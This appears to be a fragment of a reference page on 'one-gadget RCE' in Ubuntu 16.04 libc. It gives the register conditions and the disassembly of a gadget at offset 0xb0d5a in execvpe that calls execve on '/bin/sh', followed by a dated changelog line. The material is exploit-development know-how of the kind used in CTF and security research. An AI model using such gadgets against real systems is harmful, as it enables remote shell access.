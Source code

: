 ### 0xb0d5a

-   `ebx` is the address of `rw-p` area of libc
-   `[ebp+0x8] = NULL`
-   `esi = 1`

or

-   `ebx` is the address of `rw-p` area of libc
-   `[ebp+0x8] = NULL`
-   `esi` is $\gt 1$
-   `edi` is an address of readable array with length `esi` $- 1$

``` asm
000b0d5a <execvpe@@GLIBC_2.11+202>:
   b0d5a:	8d 44 24 0f          	lea    eax,[esp+0xf]
   b0d5e:	83 e0 f0             	and    eax,0xfffffff0
   b0d61:	8d 93 3f 9a fa ff    	lea    edx,[ebx-0x565c1] ; "/bin/sh"
   b0d67:	83 fe 01             	cmp    esi,0x1
   b0d6a:	89 55 e4             	mov    DWORD PTR [ebp-0x1c],edx
   b0d6d:	89 10                	mov    DWORD PTR [eax],edx
   b0d6f:	8b 55 08             	mov    edx,DWORD PTR [ebp+0x8]
   b0d72:	89 50 04             	mov    DWORD PTR [eax+0x4],edx
   b0d75:	0f 84 c4 02 00 00    	je     b103f <execvpe@@GLIBC_2.11+0x3af>

   b0d7b:	90                   	nop
   b0d7c:	8d 74 26 00          	lea    esi,[esi+eiz*1+0x0]
   b0d80:	8b 54 b7 fc          	mov    edx,DWORD PTR [edi+esi*4-0x4]
   b0d84:	89 14 b0             	mov    DWORD PTR [eax+esi*4],edx
   b0d87:	83 ee 01             	sub    esi,0x1
   b0d8a:	83 fe 01             	cmp    esi,0x1
   b0d8d:	75 f1                	jne    b0d80 <execvpe@@GLIBC_2.11+0xf0>
   b0d8f:	8b 10                	mov    edx,DWORD PTR [eax]

   b0d91:	83 ec 04             	sub    esp,0x4
   b0d94:	ff 75 10             	push   DWORD PTR [ebp+0x10]
   b0d97:	89 4d e4             	mov    DWORD PTR [ebp-0x1c],ecx
   b0d9a:	50                   	push   eax
   b0d9b:	52                   	push   edx
   b0d9c:	e8 5f f9 ff ff       	call   b0700 <execve@@GLIBC_2.0>

   b103f:	8b 55 e4             	mov    edx,DWORD PTR [ebp-0x1c]
   b1042:	e9 4a fd ff ff       	jmp    b0d91 <execvpe@@GLIBC_2.11+0x101>
```

---

# one-gadget RCE in Ubuntu 16.04 libc

-   Tue Sep 20 02:27:06 JST 2016
    -   the gadgets of x86 are added.
